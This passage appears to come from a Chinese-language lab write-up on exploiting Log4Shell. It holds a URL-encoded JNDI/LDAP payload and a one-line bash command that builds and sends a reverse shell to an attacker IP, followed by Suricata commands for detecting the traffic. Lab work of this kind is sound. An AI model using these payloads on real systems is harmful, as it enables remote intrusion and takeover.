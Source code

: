 ```bash
# http://192.168.182.129:43381/hello?payload=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%38%32%2e%31%33%30%3a%31%33%38%39%2f%54%6f%6d%63%61%74%42%79%70%61%73%73%2f%43%6f%6d%6d%61%6e%64%2f%42%61%73%65%36%34%2f%59%6d%46%7a%61%43%41%74%61%53%41%25%32%42%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4f%54%49%75%4d%54%59%34%4c%6a%45%34%4d%69%34%78%4d%7a%41%76%4e%7a%63%33%4e%79%41%77%50%69%59%78%7d%0a

# 一行命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1" && BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g') && TARGET_URL="http://192.168.182.129:43381/hello" && FULL_PAYLOAD="\${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" && URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` && curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"
```

[![reverse_shell_test_2](https://asciinema.org/a/5IEW49VBaINFUfVFmyMJdkkgM.svg)](https://asciinema.org/a/5IEW49VBaINFUfVFmyMJdkkgM)

最终找到 `flag`：

![test_flag_1](../img/lihan3238_doc/test_flag_1.png)

##### 蓝队-漏洞利用流量检测实战

- 面向网络流量的深度包检测 - jasonish/suricata:6.0.4

```bash
# kalitartgetserver
# 启动 suricata 检测容器
# 此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:latest

# 更新 suricata 规则，更新完成测试完规则之后会自动重启服务
docker exec -it suricata suricata-update -f

# 重启 suricata 容器以使规则生效
# docker restart suricata

# 监视 suricata 日志
docker exec -it suricata tail -f /var/log/suricata/fast.log
```
